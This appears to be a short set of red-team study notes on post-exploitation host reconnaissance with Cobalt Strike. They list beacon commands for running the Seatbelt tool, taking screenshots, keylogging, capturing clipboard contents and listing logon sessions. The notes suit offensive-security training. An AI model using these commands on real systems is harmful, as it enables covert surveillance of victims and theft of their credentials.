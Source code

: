 # Host Reconnaissance Notes

**Processes**
Look for interesting processes
```
ps
ps -aux
```

**Seatbelt**
[Seatbelt](https://github.com/GhostPack/Seatbelt) a post exploitation tool
In a beacon:
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system
```

Look out for things like web proxies

**Screenshots**
Can use beacon to take screenshots
```
printscreen
screenshot
screenwatch
```
Can view all of these in Cobalt Strike *View>Screenshots*

**Keylogger**
Capture user keystrokes
```
keylogger
```
View these in *View>Keystrokes*

Can use jobkill to kill this job
```
jobs
jobkill <PID>
```

**Clipboard**
Capturing any user clipboards
```
clipboard
```

**User Sessions**
See the current user sessions
```
net logons
```
